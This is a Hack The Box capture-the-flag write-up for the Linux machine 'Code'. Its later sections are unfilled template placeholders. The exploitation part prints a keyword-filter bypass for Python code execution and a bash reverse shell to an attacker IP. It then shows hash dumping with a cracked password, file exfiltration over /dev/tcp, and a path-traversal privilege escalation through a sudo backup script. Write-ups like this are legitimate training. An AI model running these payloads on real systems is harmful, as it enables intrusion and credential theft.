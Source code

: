 ### Hack The Box Writeup: Code

## Overview

- **Machine Name**: Code
- **Difficulty**: Easy
- **Platform**: Hack The Box
- **Operating System**: Linux
- **Key Objectives**: 
- **Date Solved**: August 2025

## Tools Used

- **Enumeration**: 
- **Exploitation**: 
- **Privilege Escalation**: 
- **Other**: 

## Methodology

### Initial Enumeration

```bash
ping -c 1 10.10.11.62

nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn -oG allPorts 10.10.11.62
nmap -sCV -p22,5000 -oN targeted 10.10.11.62

whatweb http://10.10.11.62:5000

```

### Exploitation
#### Using python

```py
# built in functions
test = getattr(print.__self__, '__import__')('os')
test.system('whoami')

getattr(test, 'system')('whoami')

# BUt, the web doesn't permit to use keyword. Then, we have to concatenate the string
test = getattr(print.__self__, '__im' + 'port__')('o' + 's')
getattr(test, 'sys' + 'tem')('whoami')

# TO view results, we need icmp
tcpdump -i tun0 icmp -n # local machine

getattr(test, 'sys' + 'tem')('ping -c 1 10.10.16.5') # atacker ip

# We can use RCE
nc -nlvp 443
getattr(test, 'sys' + 'tem')('bash -c "bash -i >& /dev/tcp/10.10.16.5/443 0>&1"')

```

### Privilege Escalation

```bash
script /dev/null -c bash
ctrl + z

stty raw -echo; fg
reset xterm

export TERM=xterm
export SHELL=bash

find . # to view all files in current dir
cd ./instance

file database.db
sqlite3 database.db
.tables

select * from user;
# ans
1|development|759b74ce43947f5f4c91aeddc3e5bad3
2|martin|3de6f30c4a09c27fc71932bfc68474be

# de-hashed in hashes.com
3de6f30c4a09c27fc71932bfc68474be:nafeelswordsmaster

ssh martin@10.10.11.62

id
sudo -l
# ans
Matching Defaults entries for martin on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User martin may run the following commands on localhost:
    (ALL : ALL) NOPASSWD: /usr/bin/backy.sh

nc -nlvp 443 > backy.sh # localmachine
cat /usr/bin/backy.sh > /dev/tcp/10.10.16.5/443

# rewrite json file using path traversal
{
	"destination": "/home/martin/",
	"multiprocessing": true,
	"verbose_log": false,
	"directories_to_archive": [
		"/home/....//root"
	]
}

sudo /usr/bin/backy.sh task.json

tar-xf code.tar.gz
cd root
cat root.txt

```
## Challenges Faced


- **Challenge 1**: \[e.g., Nmap scans were blocked by a firewall.\]
  - **Solution**: \[e.g., Used --script-args to bypass restrictions.\]
- **Challenge 2**: \[e.g., Password cracking took too long.\]
  - **Solution**: \[e.g., Optimized wordlist with custom rules in Hashcat.\]

## Lessons Learned

\[Summarize key takeaways from solving the machine.\]

- Learned to identify \[specific vulnerability, e.g., outdated Samba versions\] through thorough enumeration.
- Improved skills in \[technique, e.g., manual exploit development for CVE-XXXX-XXXX\].
- Gained experience with \[tool, e.g., LinPEAS for privilege escalation\].

## References

- \[Link to HTB machine page, e.g., https://app.hackthebox.com/machines/Lame\]
- \[CVE details, e.g., https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-XXXX-XXXX\]
- \[Tool documentation, e.g., https://nmap.org/book/man.html\]
- \[Relevant blog post or tutorial, e.g., https://example.com/samba-exploit-guide\]

---

*Written by YourName, 08.2025. Feedback welcome at github.com/edibauer.*
